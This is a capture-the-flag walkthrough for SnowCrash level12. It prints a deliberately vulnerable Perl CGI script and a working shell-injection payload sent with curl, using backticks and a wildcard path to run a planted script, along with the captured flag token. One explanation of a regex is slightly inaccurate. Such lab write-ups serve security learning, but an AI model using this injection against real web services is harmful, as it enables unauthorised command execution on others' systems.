 ### Level12

Let's start by looking at the available script:
```
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

We can observe 3 things:
- The script listens on port 4646
- It takes 2 parameters but only the first "x" is used
- x" is modified via regexes: 
	- `tr/a-z/A-Z/` will capitalize "x
	- `s/\s.*//;` the argument must start with a whitespace characters and be followed by characters

Let's start by creating a script to run the `getflag` command in a file:

`echo "getflag > /tmp/test" > /tmp/EXPLOIT`

Then let's do the following test, replacing `/tmp` with `*` so that we don't have to worry about regex :
```
level12@SnowCrash:~$ curl '10.181.11.61:4646?x="`/*/EXPLOIT`"'
..level12@SnowCrash:~$ cat /tmp/test
cat: /tmp/test: No such file or directory
```

Our test file was not created, so the command did not work. And indeed after running the script directly we can see this:
```
level12@SnowCrash:~$ ./level12.pl x="`/*/EXPLOIT`"
-bash: /tmp/EXPLOIT: Permission denied
Content-type: text/html

..level12@SnowCrash:~$
```

We then just need to change the permissions of `EXPLOIT` with a chmod. If we run the commands again we can see that it works:
```
level12@SnowCrash:~$ chmod 777 /tmp/EXPLOIT
level12@SnowCrash:~$ curl '10.181.11.61:4646?x="`/*/EXPLOIT`"'
..level12@SnowCrash:~$ cat /tmp/test
Check flag.here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

